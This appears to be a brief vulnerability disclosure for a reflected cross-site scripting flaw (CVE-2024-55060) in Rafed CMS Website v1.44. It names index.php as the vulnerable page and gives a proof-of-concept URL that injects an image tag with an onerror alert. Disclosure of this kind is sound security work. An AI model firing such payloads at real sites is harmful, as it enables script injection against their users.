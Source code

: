 # CVE-2024-55060

Rafed CMS Website v1.44 - Cross Site Scripting (XSS)

#### Exploit Title: Rafed CMS Website v1.44 - Cross Site Scripting (XSS)
#### Date: 2024-03-12
#### CVE: CVE-2024-55060
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.rafed-system.org/
#### Software Link: N/A
#### Version: 1.44
#### Tested on: Apache, Linux

-----

#### [#] Vulnerability Location:

  `index.php?">{XSS_Payload]` in `index.php`

----

#### [#] Exploitation:

  `https://localhost/?%22%3E%3Cimg%20src=x%20onerror=alert(1)%3E`
